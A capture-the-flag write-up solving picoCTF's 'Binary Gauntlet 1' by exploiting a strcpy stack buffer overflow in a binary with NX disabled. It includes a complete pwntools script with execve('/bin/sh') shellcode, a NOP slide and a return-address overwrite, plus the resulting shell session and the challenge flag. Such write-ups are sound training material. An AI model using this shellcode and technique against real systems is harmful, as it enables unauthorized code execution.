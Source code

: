 # picoCTF Binary Gauntlet 1 Write Up

## Details:
Points: 30

Jeopardy style CTF

Category: Binary Exploitation

Comments: Okay, time for a challenge. gauntlet nc mercury.picoctf.net 19968

## Write up:

Opening up the file in a decompiler we see the main function:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest[104]; 
  char *s;

  s = (char *)malloc(1000uLL);
  printf("%p\n", dest);
  fflush(_bss_start);
  fgets(s, 1000, stdin);
  s[999] = 0;
  printf(s);
  fflush(_bss_start);
  fgets(s, 1000, stdin);
  s[999] = 0;
  strcpy(dest, s);
  return 0;
}
```

I noticed almost immediately that the vulnerability was a buffer overflow since we were copying a 999 character string to a 103 character string.

There were no references of the flag in the program so I knew that I would need to get shell access to the machine the program was running on. 

First I checked the security on the binary:

```
checksec --file=gauntlet                             

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   67) Symbols       No    0               3gauntlet
```

I saw that NX was disabled which meant that the stack was executable. They gave us the address of dest which was a fairly big hint. 

At this point my plan of attack was to write the shellcode to dest and then do a buffer overflow so that I could overwrite where the return goes to.

I used cyclic from pwntools to generate a pattern and saw that after 120 characters we would need to write the address we wanted to go to. I then created the following python script:

```python
# import pwn tools
from pwn import *

# open remote process
r = remote('mercury.picoctf.net', 19968)

# get the line with the address
address = r.recvline() 

# turn address into an int so we can add later on
address = int(address[:-1], 16)

# send arbitrary text
r.send('boo\n')

# get the next line
r.recvline()

# 64 bit shellcode
shellcode = b'\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05'

# 96 nops for the nop slide
NOPS = b'\x90'*96

# craft payload
payload = shellcode + NOPS + p64(address)

# send payload
r.send(payload + b'\n')

# get interactive mode
r.interactive()
```

Running the script I got:

```
[+] Opening connection to mercury.picoctf.net on port 19968: Done
[*] Switching to interactive mode

$ ls
flag.txt
gauntlet
gauntlet_no_aslr
xinet_startup.sh

$ cat flag.txt
7504344981b9288c5669150ada84894e
```

The flag was:

```
7504344981b9288c5669150ada84894e
```